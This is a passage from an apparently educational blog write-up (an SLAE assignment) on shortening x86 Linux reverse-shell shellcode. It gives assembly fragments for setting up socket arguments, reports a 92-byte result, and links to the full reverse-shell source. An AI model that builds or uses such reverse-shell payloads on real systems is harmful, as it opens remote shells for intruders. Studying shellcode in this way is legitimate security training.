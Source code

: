 ## Optimizing the shellcode (a little)
First thing is to use the PUSH-POP technique to initialize a register with some value. Instead of XORing eax with itself and then moving a byte to al, we can push the byte into the stack and then pop it into eax.

For opening the socket we use:

```
xor eax, eax
mov al, 0x66 ;socketcall
```

Now this becomes:

```
push byte 0x66
pop eax
```

It has the same effect but 1 byte smaller. We apply this same idea multiple times.

Another optimization is changing this:

```
xor ebx, ebx
mov bl, 0x01 ;socket function

;push the list of arguments onto the stack
push 0x00 ;PROT
push 0x01 ;SOCK_STREAM
push 0x02 ;AF_INET
```

To this:

```
xor ebx, ebx

;push the list of arguments onto the stack
push ebx ;ebx=0 (PROT)
inc ebx
push ebx ; ebx=1 (SOCK_STREAM)
inc ebx
push ebx ;ebx=2 (AF_INET)

dec ebx ;ebx=1
```

This will reduce the size of the payload while eliminating one NULL byte. The final result is a **92 bytes** shellcode! Still not the best, but much better :)

You can find the complete code with 92 bytes [here](https://github.com/marcosValle/SLAE/blob/master/assignment2/reverseShellOpt.asm). The 119 bytes (with NULLs) version is [here](https://github.com/marcosValle/SLAE/blob/master/assignment2/reverseShell.asm)

## Testing
Using the [test skelleton code](https://marcosvalle.github.io/osce/2018/05/03/testing-shellcode.html) slightly modified so the port and the IP address are configurable:
